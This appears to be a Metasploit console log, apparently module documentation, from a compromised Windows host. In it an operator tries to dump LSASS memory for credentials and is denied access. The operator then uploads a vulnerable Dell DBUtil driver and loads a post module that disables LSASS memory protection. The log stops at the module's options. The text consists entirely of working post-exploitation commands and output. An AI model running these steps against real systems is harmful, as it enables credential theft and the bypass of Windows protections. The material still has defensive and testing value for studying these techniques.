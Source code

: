 ```

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 740  572   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DUMP_PATH                   yes       File to write memory dump to
   DUMP_TYPE  standard         yes       Minidump size (Accepted: standard, full)
   PID                         yes       ID of the process to dump memory from
   SESSION                     yes       The session to run this module on

msf6 post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/memory_dump) > set PID 740
PID => 740
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp
[*] uploading  : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploaded   : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf6 post(windows/manage/dell_memory_protect) > options

Module options (post/windows/manage/dell_memory_protect):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   DRIVER_PATH                          yes       The path containing the driver inf, cat, and sys (and coinstaller)
   ENABLE_MEM_PROTECT  false            yes       Enable or disable memory protection
   PID                                  yes       The targetted process
   SESSION                              yes       The session to run this module on

```